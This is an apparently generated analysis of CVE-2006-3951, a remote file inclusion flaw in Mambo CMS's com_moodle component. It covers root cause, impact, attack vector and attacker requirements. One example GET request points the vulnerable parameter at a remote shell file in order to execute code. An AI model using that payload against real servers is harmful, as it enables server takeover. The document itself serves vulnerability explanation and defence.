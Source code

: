 Based on the provided content, here's an analysis of CVE-2006-3951:

**Root Cause of Vulnerability:**

*   The vulnerability is a Remote File Inclusion (RFI) flaw. The `mosConfig_absolute_path` parameter within the `moodle.php` component of the Mambo CMS application is not properly sanitized.

**Weaknesses/Vulnerabilities Present:**

*   **Remote File Inclusion (RFI):** The application allows an attacker to include a remote file into the application via a vulnerable parameter.

**Impact of Exploitation:**

*   **Remote Code Execution (RCE):** By including a remote file, an attacker can execute arbitrary code on the server hosting the vulnerable application. This can lead to complete compromise of the server and the application.

**Attack Vectors:**

*   **HTTP GET Request:** The attack is carried out by crafting a malicious HTTP GET request that specifies a remote URL in the vulnerable `mosConfig_absolute_path` parameter.
    *   Example: `http://web/components/com_moodle/moodle.php?mosConfig_absolute_path=http://shell.txt`

**Required Attacker Capabilities/Position:**

*   **Network Access:** The attacker needs to be able to send HTTP requests to the server running the vulnerable Mambo CMS application.
*   **Hosting of Malicious File:** The attacker needs to have a server or resource where a malicious file can be hosted and accessed.

**Additional Information:**

*   The exploit targets the `com_moodle` component within the Mambo CMS.
*   The Exploit-DB entry confirms that this exploit was tested and verified.
*   The exploit was published on 2006-07-23 by the author "jank0".

This information is more detailed than the official CVE description which is a placeholder.